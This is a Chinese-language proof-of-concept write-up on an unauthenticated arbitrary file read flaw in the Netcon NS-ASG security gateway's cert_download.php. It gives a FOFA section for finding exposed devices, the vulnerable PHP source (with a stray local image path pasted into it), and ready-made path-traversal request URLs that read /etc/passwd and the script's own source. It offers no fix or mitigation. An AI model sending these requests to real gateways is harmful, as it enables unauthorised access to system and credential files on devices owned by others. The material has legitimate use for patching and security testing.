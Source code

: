 # 网康 NS-ASG安全网关 cert_download.php 任意文件读取漏洞

## 漏洞描述

网康 NS-ASG安全网关 cert_download.php 文件存在任意文件读取漏洞

## 漏洞影响

```
网康 NS-ASG安全网关
```

## FOFA

```
网康 NS-ASG安全网关
```

## 漏洞复现

出现漏洞的文件为 **/admin/cert_download.php**

```php
![2](C:\Users\47236\Desktop\2.png)<?php
$filename = substr($file,strpos('certs/',$certfile)+6);
//文件的类型
header('Content-type: application/pdf');
//下载显示的名字
header('Content-Disposition: attachment; filename="'.$filename.'"');
readfile("$certfile");
exit();
?>
```

此文件没有对身份进行校验即可下载任意文件

```plain
/admin/cert_download.php?file=test.txt&certfile=../../../../../../../../etc/passwd
```

![](./images/202202162231024.png)

```plain
/admin/cert_download.php?file=test.txt&certfile=cert_download.php
```

![](./images/202202162234357.png)